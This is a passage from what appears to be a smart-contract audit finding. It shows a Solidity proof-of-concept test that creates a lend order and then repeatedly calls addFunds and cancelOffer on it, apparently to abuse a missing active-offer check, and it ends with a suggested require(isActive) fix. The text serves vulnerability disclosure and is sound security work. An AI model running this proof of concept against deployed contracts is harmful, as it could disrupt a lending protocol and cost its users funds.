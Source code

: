 ```solidity
        deal(AERO, alice, 1000e18, false);
        IERC20(AERO).approve(address(DLOFactoryContract), 1000e18);

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData.getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData.getDynamicAddressArray(1);

        ratio[0] = 1e18;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            AERO,
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );

        LendOrder = DLOImplementation(lendOrderAddress);

        LendOrder.cancelOffer();

        for (uint i = 0; i < 10; i++) {
            IERC20(AERO).approve(address(LendOrder), 10e18);
            LendOrder.addFunds(10e18);
            LendOrder.cancelOffer();
        }

    }

}

```

### Mitigation

Check whether the offer is active in the affected `cancelOffer()` and `addFunds(uint amount)` functions:
```solidity
require(isActive, "Offer is not active");
```
It may be possible that the check is not performed so that lend orders can receive funds even when they were inactived. In that case, implementing a separate function to withdraw funds but not trigger deletion may also be a viable fix.